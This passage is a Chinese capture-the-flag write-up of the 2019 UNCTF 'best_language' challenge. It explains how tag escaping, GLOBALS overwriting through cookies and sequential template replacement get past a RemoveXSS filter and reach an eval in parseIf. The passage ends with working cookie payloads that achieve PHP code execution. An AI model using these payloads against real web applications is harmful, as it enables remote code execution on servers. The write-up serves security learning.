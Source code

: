然后解析成
```
<video src='https://www.youtube.com/embed/<a
href='></video><search>haha</search>'>1234</a>></video>
```


看起来我们的 search 标签成功逃逸出来了。

最终我们的payload是：
```
?_COOKIE[GLOBALS][GLOBALS][content]=[video]http://www.youtube.com?v=[url]></video><search>ceshi</search>[/url][/video]
```
我们可以在本地调试输出一下：

![](https://ctfwp.wetolink.com/2019unctf/best_language/d20df4c63256464ea4470bd35d907c02.png)

然后这个search 标签中的值会被带入进 parse_again
函数中。现在我们就可以来分析分析这里了。

![](https://ctfwp.wetolink.com/2019unctf/best_language/389c1f6c0007d8054b5212aa2cb04269.png)

首先分析分析parseIf 的函数，这大概就是在 $content 中匹配 `{if:abcd}1234{end if}`
这样的值，然后把 abcd的这个地方的值拿出来 eval，我们假设一下，我们可以把
template 里的值直接替换成 `{if:phpinfo()}1234{end if}`，这样就能执行了，再看看我们可以控制 template 里的哪里。

回到 parse_again 这个函数，GLOBALS
里的值我们是可控的，所以我们可以控制五个变量。但是这五个变量都被限制了，首先经过了
RemoveXSS，然后又截断了20位。我们先看看 RemoveXSS，在 common.php 中：

![](https://ctfwp.wetolink.com/2019unctf/best_language/a25d117e7a44e788f89b52a1716eb99f.png)

这里大概就是说如果匹配到了不允许的字符串，就在前两位加上 `<x>`，而我们最重要的
if: 也在里面。

这个分析完，再回到 parse_again

![](https://ctfwp.wetolink.com/2019unctf/best_language/63017bcd0d20222507804f2c43211357.png)

我们可以看到这里是顺序替换的，换种思路，我们是不是可以在 searchword 中带有
searchnum，比如：

模板文件中：

![](https://ctfwp.wetolink.com/2019unctf/best_language/c324cb7c21964fe51ca405fd9208a01a.png)

这是我们最先要替换的，替换成 $searchword，

我们把 $searchword 的值设为 `1{haha:searchnum}`，那么下次替换 $searchnum
的时候，比如我们的 searchnum 的值是 2，那么替换完就是 12，如果我们的1是
if，而他removexss 匹配得是 if: (if+冒号)，这时候就不会被检测到。

也就是说我们可以一点一点替换，最后达到：`{if:phpinfo()}1234{end if}`

给出我们的payload：

```
_COOKIE[GLOBALS][GLOBALS][content]=[video]http://www.youtube.com?v=[url]></video><search>{if{haha:searchnum}}</search>[/url][/video]

_COOKIE[GLOBALS][searchnum]=:eva{haha:type}

_COOKIE[GLOBALS][type]=l($_G{haha:typename}

_COOKIE[GLOBALS][typename]=ET[1])

1=phpinfo();
```
